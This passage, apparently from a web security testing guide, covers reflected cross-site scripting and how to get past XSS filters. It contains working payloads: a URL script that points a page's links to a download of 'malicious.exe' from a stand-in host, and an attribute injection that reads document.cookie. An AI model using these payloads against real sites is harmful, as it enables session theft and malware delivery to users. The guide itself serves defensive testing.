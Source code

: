 If no sanitization is applied this will result in a popup.

This indicates that there is an XSS vulnerability and it appears that the tester can execute code of his choice in anybody’s browser if he clicks on the tester’s link.
<br>
<br>
### Example 2

Let’s try other piece of code (link):
`http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>`

This will cause the user, clicking on the link supplied by the tester, to download the file `malicious.exe` from a site they control.
<br>
<br>
## Bypass XSS Filters:

Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers. The tester must test for vulnerabilities assuming that web browsers will not prevent the attack. Browsers may be out of date, or have built-in security features disabled. Similarly, web application firewalls are not guaranteed to recognize novel, unknown attacks. An attacker could craft an attack string that is unrecognized by the web application firewall.

Thus, the majority of XSS prevention must depend on the web application’s sanitization of untrusted user input. There are several mechanisms available to developers for sanitization, such as returning an error, removing, encoding, or replacing invalid input. The means by which the application detects and corrects invalid input is another primary weakness in preventing XSS. A deny list may not include all possible attack strings, an allow list may be overly permissive, the sanitization could fail, or a type of input may be incorrectly trusted and remain unsanitized. All of these allow attackers to circumvent XSS filters.

### Example 3: Tag Attribute Value:

Since these filters are based on a deny list, they could not block every type of expressions. In fact, there are cases in which an XSS exploit can be carried out without the use of `<script>` tags and even without the use of characters such as `<` and `>` that are commonly filtered.

For example, the web application could use the user input value to fill an attribute, as shown in the following code:
`<input type="text" name="state" value="INPUT_FROM_USER">`

Then an attacker could submit the following code:
`" onfocus="alert(document.cookie)`
<br>
<br>
### Example 4: Different Syntax or Encoding

In some cases it is possible that signature-based filters can be simply defeated by obfuscating the attack. Typically you can do this through the insertion of unexpected variations in the syntax or in the enconding. These variations are tolerated by browsers as valid HTML when the code is returned, and yet they could also be accepted by the filter.
